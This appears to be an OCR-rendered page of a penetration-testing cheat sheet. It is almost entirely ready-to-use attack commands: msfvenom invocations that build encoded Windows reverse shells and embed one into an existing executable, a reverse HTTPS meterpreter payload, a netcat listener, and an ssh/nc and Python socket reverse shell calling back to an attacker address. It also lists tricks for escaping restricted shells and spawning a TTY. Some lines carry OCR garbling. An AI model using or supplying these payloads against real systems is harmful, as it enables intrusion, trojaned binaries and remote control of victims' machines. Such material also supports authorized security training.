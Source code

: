 - Create a PE reverse shell and embed it into an existing executable  

    `msfvenom -p windows/shell_reverse_tcp LHOST=$ip LPORT=4444 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o shell_reverse_msf_encoded_embedded.exe`

- Create a PE Reverse HTTPS shell

    `msfvenom -p windows/meterpreter/reverse_https LHOST=$ip LPORT=443 -f exe -o met_https_reverse.exe`

- You can remove \x00\x0a\x0d\x20 almost in every app.

- FTP - > \x00\x0d\x0a\x20\x40

## Shells

- Netcat Shell Listener  

    `nc -nlvp 4444`

- Spawning a TTY Shell - Break out of Jail or limited shell
         You should almost always upgrade your shell after taking control of an apache or www user.

        (For example when you encounter an error message when trying to run an exploit sh: no job control in this shell )
        
        (hint: sudo -l to see what you can run)

  - You may encounter limited shells that use rbash and only allow you to execute a single command per session.
         You can overcome this by executing an SSH shell to your localhost:

               ssh user@$ip nc $localip 4444 -e /bin/sh
               enter user's password
               python -c 'import pty; pty.spawn("/bin/sh")'
               export TERM=linux

      `python -c 'import pty; pty.spawn("/bin/sh")'`

               python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);          s.connect(("$ip",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(\["/bin/sh","-i"\]);'

      `echo os.system('/bin/bash')`

      `/bin/sh -i`

      `perl —e 'exec "/bin/sh";'`

      perl: `exec "/bin/sh";`

      ruby: `exec "/bin/sh"`

      lua: `os.execute('/bin/sh')`

      From within IRB: `exec "/bin/sh"`

      From within vi: `:!bash`
     or

      `:set shell=/bin/bash:shell`
